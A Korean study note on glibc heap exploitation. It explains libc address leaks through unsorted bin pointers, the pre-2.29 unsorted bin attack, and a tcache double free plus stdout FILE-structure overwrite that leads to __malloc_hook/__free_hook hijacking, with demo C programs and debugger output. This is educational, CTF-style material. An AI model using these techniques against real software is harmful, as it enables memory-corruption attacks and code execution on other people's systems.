

# Heap Exploit - Memory Leak

힙을 이용한 메모리 릭 기법들에 대해 정리해봤다.


## Unsorted Bin을 이용한 Leak

첫 번째로 Unsorted Bin은 fd와 bk에 main_arena 영역의 주소 저장한다는 특징이 있다.

```C
// gcc unsorted_leak.c -o unsorted_leak (환경 : ubuntu 16.04) 출처 : 내머리
#include <stdio.h>
#include <stdlib.h>

int main(){

    char * ptr1;
    char * ptr2;

    ptr1 = malloc(0x100);
    ptr2 = malloc(0x100);

    free(ptr1); // ptr1 -> unsorted bin

    fprintf(stderr, "ptr1->fd : %p\nptr1->bk : %p\n", *(long long * )ptr1, *((long long * )ptr1+1));

    return 0;
}
```



```
// unsorted_leak 디버깅
pwndbg> heap
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x602000
Size: 0x111
fd: 0x7ffff7dd1b78
bk: 0x7ffff7dd1b78

Allocated chunk
Addr: 0x602110
Size: 0x110

Top chunk | PREV_INUSE
Addr: 0x602220
Size: 0x20de1

pwndbg> unsortedbin
unsortedbin
all: 0x602000 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602000

pwndbg> x/6gx 0x602000
0x602000:       0x0000000000000000      0x0000000000000111	
0x602010:       0x00007ffff7dd1b78      0x00007ffff7dd1b78	<-- ptr1 fd, bk
0x602020:       0x0000000000000000      0x0000000000000000

pwndbg> x/gx 0x00007ffff7dd1b78
0x7ffff7dd1b78 <main_arena+88>: 0x0000000000602220
```

이 특징을 이용해서 만약, unsorted bin에 들어간 청크의 fd값 또는 bk값을 leak 할 수 있다면 라이브러리 영역의 주소를 leak하는 것이 가능하다.

(main_arena는 라이브러리에 있는 구조체이기 때문임.)


## Unsorted Bin Attack 

이름은 Attack인데 실제로는 그냥 leak할때 쓰는 기법이다.

여기서 설명하는 Unsorted Bin Attack은 보안 패치가 되기 전인 glibc 2.29 전 버전에서를 기준으로 한다.

기법을 요약하면 Unsorted Bin을 재할당 할때, 원하는 위치에 main_arena 영역의 주소를 저장하는 것이다.

```C
// av 변수 : arena의 주소
// victim 변수 : 재할당할 청크의 주소
#define unsorted_chunks(M)          (bin_at (M, 1))
static void * _int_malloc (mstate av, size_t bytes)
{
    ...
    // in unsorted bin
    for (;; )
    {
        int iters = 0;
        while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))    // [A]
        {
            bck = victim->bk;                                                  // [B]
            ...
            /* remove from unsorted list */
            unsorted_chunks (av)->bk = bck;
            bck->fd = unsorted_chunks (av);                                    // [C]
            ...

```
위의 코드와 같이 Unsorted Bin에 있는 청크를 재할당 받는 경우, 아래의 조건에 의해 원하는 위치에 main_arena 영역의 주소를 저장할 수 있다.

- [A] ```(victim = unsorted_chunks (av)->bk)``` : arena의 bins 배열의 맨 첫번째에 있는 bin의 주소(= unsorted bin)를 victim에 저장한다.
- [B] ```bck = victim->bk;``` : 재할당할 부분의 victim->bk를 bck 변수에 저장한다.
- [C] ```bck->fd = unsorted_chunks (av);``` : bck->fd에 arena 영역의 주소를 저장한다. <-- 이게 주요 포인트!

즉, 결과적으로 **victim->bk->fd에 arena영역의 주소를 저장**하게 되므로, 출력이 가능한 위치에 arena의 영역의 주소를 저장한다면 라이브러리 leak이 가능해진다.

```C
// gcc unsorted_leak2.c -o unsorted_leak2 (환경 : ubuntu 16.04) 출처 : 내머리
#include <stdio.h>
#include <stdlib.h>

long target;

int main(){

    long * ptr1;
    long * ptr2;
    long * reptr1;

    ptr1 = malloc(0x100);
    ptr2 = malloc(0x100);

    free(ptr1); // ptr1 -> unsorted bin

    // set ptr1->bk
    ptr1[1] = (long)&target-0x10;

    reptr1 = malloc(0x100); // Re Allocated

    fprintf(stderr, "target : %p\n", target);

    return 0;
}
```


## Tcache(구 버전) Leak

Tcache를 이용한 Leak 방법은 크게 3가지가 있다.

- Tcache는 동일한 크기의 chunk를 7개 까지만 받고 8번째 부터는 크기에 맞춰서 fast bin 또는 small bin으로 보내는데, 이때 small bin의 크기라면 small bin으로 가기전에 unsorted bin으로 먼저 가게된다. 이 점을 이용해서 Unsorted bin을 이용한 memory leak을 하면 된다.

- Tcache를 사용하지 않는 크기인 large bin 크기의 chunk를 해제하여 Unsorted bin으로 보내, Unsorted bin을 이용한 memory leak을 하면 된다.

- FSOP의 _IO_FILE Arbitrary Read와 tcache dup을 사용해서 leak을 한다.

여기서 Unsorted bin을 이용한 것은 바로 위에서 했으니 넘어가고, 마지막 FSOP를 이용한 것만 추가로 정리하겠습니다.

_근데.. 너무 복잡하네요... 시간이 촉박해서 자세하게는 나중에 정리하고 일단 지금은 요약만 하겠습니다.._

- 이 leak 기법은 해커가 자유롭게 heap 할당과 해제가 가능하다는 전제 하에 가능한 기법입니다. (물론 때에 따라 달라질수도 있습니다...)

- 이 기법의 대단한 점은 출력해주는 함수가 어떠한 것도 없는 경우에도 leak이 가능하다는 점입니다.

- 이 기법의 큰 틀은, tcache double free 기법과 SFOP(_IO_FILE Arbitrary Read) 기법을 같이 사용 하는 것입니다.

- **기법 설명**
  - **조건**
  
    - tcache double free 기법을 이용해서 원하는 주소에 청크를 할당 받고 값을 입력 할 수 있어야 합니다.
    - 어떤 방식으로든 unsorted bin을 만들 수 있어야 합니다.
      - unsorted bin의 fd와 bk에 존재하는 main_arena 영역의 주소 근처에는 stdout 구조체가 존재하기 때문에 이를 이용해서 SFOP를 합니다.
  
  - 먼저 unsorted bin chunk에 tcache double free를 이용하여 값을 덮을 수 있도록 재할당을 받습니다. (이건 offset 유추로 합니다.)
  
    - unsorted bin을 재할당 받는것이랑은 다른 겁니다.
  
  -  unsorted bin chunk에 재할당 된 chunk를 이용하여 unsorted bin chunk->fd의 값을 stdout의 주소로 조작합니다.
  
    - 이때, stdout의 주소는 leak을 하여 알아내는 것이 아니라 brute force로 찾아내야 합니다.
  
    - ```
      pwndbg> x/4gx 0x602000
      0x602000:       0x0000000000000000      0x0000000000000111
      0x602010:       0x00007ffff7dd1b78      0x00007ffff7dd1b78
      pwndbg> x/x 0x00007ffff7dd1b78
      0x7ffff7dd1b78 <main_arena+88>: 0x0000000000602220
      
      pwndbg> p stdout
      $1 = (struct _IO_FILE *) 0x7ffff7dd2620 <_IO_2_1_stdout_>
      pwndbg> x/4x 0x7ffff7dd2620
      0x7ffff7dd2620 <_IO_2_1_stdout_>:       0x00000000fbad2084      0x0000000000000000
      0x7ffff7dd2630 <_IO_2_1_stdout_+16>:    0x0000000000000000      0x0000000000000000
      pwndbg> p/x 0x7ffff7dd2620-0x00007ffff7dd1b78    // &stdout - &main_arena+88
      $4 = 0xaa8
      ```
      
    - 위와 같이 **&stdout**과 **&main_arena+88** 는 하위 1.5byte만 다르기 때문에 충분히 brute force가 가능합니다.
    
    - (안되는 경우도 있음. 안되면 이 기법은 사용 불가능...)
    
  - tcache double free로 stdout의 주소로 조작된 unsorted bin chunk->fd 값을 이용하여 stdout에 tcache bin을 재할당 받습니다.
  
  - stdout에 재할당된 tcache bin의 값을 조작하여 SFOP 기법을 사용합니다.
  
    - _IO_SYSWRITE 함수를 호출해서 메모리 leak을 해야하기 때문에 stdout의 flags 변수를 아래 조건에 맞춰 변경해줍니다.
      - flags 변수 값과 ```&= _IO_NO_WRITES```와 ```|= _IO_CURRENTLY_PUTTING``` 조건을 만족해야함.
      - 따라서 flags는 0xfbad38c0이 됨.
    - _IO_write_base에 leak(출력)할 데이터 값을 덮어 줍니다.
      - 편하게 _IO_write_base의 하위 1바이트만 수정해서 stderr 구조체가 가진 멤버 변수 값을 출력하게 해도 됨.
    - 이후 printf와 같이 stdout을 사용하는 함수가 호출이 되면 leak에 성공하게 됩니다.
  
  - leak까지 성공한 이후에는 tcache double free 기법 등을 이용하여 \__malloc_hook, __free_hook 등을 이용하여 함수 호출 흐름을 바꿔 shell을 얻을 수 있습니다.
  
  


## Reference

https://elixir.bootlin.com/glibc/glibc-2.23/source - 소스코드

https://dreamhack.io/learn/16#101 - Tcache memory leak 